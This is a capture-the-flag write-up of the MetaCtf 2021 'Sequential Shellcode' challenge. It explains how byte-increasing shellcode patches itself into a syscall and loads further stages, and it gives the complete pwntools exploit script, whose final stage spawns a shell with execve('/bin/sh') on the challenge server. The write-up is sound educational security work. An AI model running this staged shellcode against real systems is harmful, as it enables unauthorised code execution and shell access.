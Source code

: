 ## Sequential Shellcode

was a shellcoding pwn challenge from MetaCtf 2021.

A very interesting one, got first blood on it, and there was only one solve..

So the concept was to write a shellcode where every byte must be bigger then the preceding one..

a increasing only shellcode..more or less...

The shellcode is copied to a memory zone RWX mapped at address 0x0000133713370000

first we use the fact that in the register rcx, you will get the length of shellcode less 1.

so we send a shellcode of length 0x10 to have 0x0f in rcx..

that will be usefull for us...

let's see registers state when we enter the shellcode:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Sequential.Shellcode/pics/registers.png)

you can see that we set rcx to 0x0f above.

first we will use:

`04 05       add al,5`

like this we can change it to a syscall with the next instruction, that will modify the 04 opcode to 0F

`  or byte ptr[rdx],cl`

now we have a syscall at the address 0x0000133713370000 where our shellcode start.

then we clear al, to make rax pointing again to shellcode start.

then we set the registers correctly to call read..

and we jump back to the beginning of the shellcode, and we will read a second shellcode non restricted above the first one..

this second shellcode will read a third one , that will do execve("/bin/sh", 0,0)

and that's all

so here is my solution:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Sequential.Shellcode/pics/bytes.png)


```asm
begin:
  add al,5
  or byte ptr[rdx],cl
  and al,0x28
  push rax
  push rcx
  push rbx
  pop rax
  pop rdx
  pop rsi
  jno begin
  .byte 0xf5,0xf6
```

and the full exploit:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./sequential')

host, port = "host.cg21.metaproblems.com", "3340"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

shellc = asm('''
begin:
  add al,5
  or byte ptr[rdx],cl
  and al,0x28
  push rax
  push rcx
  push rbx
  pop rax
  pop rdx
  pop rsi
  jno begin
  .byte 0xf5,0xf6

''')

print(hexdump(shellc))

payload = shellc
p.sendlineafter('bytes?\n', str(len(payload)))


for i in payload:
  p.sendlineafter('> ', str(ord(i)))

shellc2 = asm('''
  .byte 0xf,0x05
  xor eax,eax
  push 0x40
  pop rdx
  syscall
''')

p.send(shellc2.ljust(15,'\x90'))

shellc3 = asm('''
  .byte 0x90,0x90,0x90,0x90,0x90,0x90, 0x90,0x90,0x90
  xor esi, esi
  push rsi
  mov rbx, 0x68732f2f6e69622f
  push rbx
  push rsp
  pop rdi
  imul esi
  mov al, 0x3b
  syscall
''')

p.send(shellc3)

p.interactive()
```

*nobodyisnobody still pwning things*
